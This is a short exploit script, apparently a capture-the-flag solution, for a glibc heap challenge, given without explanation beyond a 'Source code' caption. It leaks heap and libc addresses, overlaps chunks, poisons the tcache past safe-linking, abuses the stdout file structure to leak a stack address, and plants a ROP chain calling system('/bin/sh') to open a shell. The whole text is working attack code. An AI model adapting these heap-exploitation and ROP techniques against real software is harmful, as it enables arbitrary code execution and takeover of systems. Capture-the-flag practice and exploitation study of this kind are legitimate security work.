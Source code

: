 ```bash
ru('and this line will make the game easier\n')

heap_base=int(r(14),16)-0x2a0
leak('heap_base ',heap_base)

add(0x418,p64(0)+p64(0x1880)+p64(heap_base+0x2c0)+p64(heap_base+0x2c0))
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x418,'aaaa')
add(0x418,'aaaa')
add(0x4f8,'bbbb')
add(0x4f8,'bbbb')

edit(5,0x418,'a'*0x410+p64(0x1880))
delete(6)

add(0x408,'cccc')
add(0x488,'cccc')
add(0x488,'cccc')
delete(8)
add(0x498,'dddd')
show(1)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ff0f0-0x20

leak('libc_base ',libc_base)

stdout = libc_base + libc.sym['_IO_2_1_stdout_']
environ = libc_base + libc.sym['_environ']

delete(2)
delete(3)

pl='a'*0x380+p64(0)+p64(0x411)+p64((heap_base+0x10)^(heap_base>>12))
edit(9,0x400,pl)
sl('')
add(0x408,'aaaa')
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stdout)
add(0x408,pl)

pl=p64(0xfbad1800) + p64(0)*3 + p64(environ) + p64(environ+8)*4
add(0x408,pl)

ru('\n')
stack=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x120
leak('stack ',stack)

pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stack-0x8)
edit(3,0x408,pl)

pop_rdi = libc_base + 0x0000000000028715
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.sym['system']
ret  = libc_base + 0x0000000000026a3e
sl('1')

pl= p64(0)+ p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
add(0x400,pl)

menu(5)

itr()
```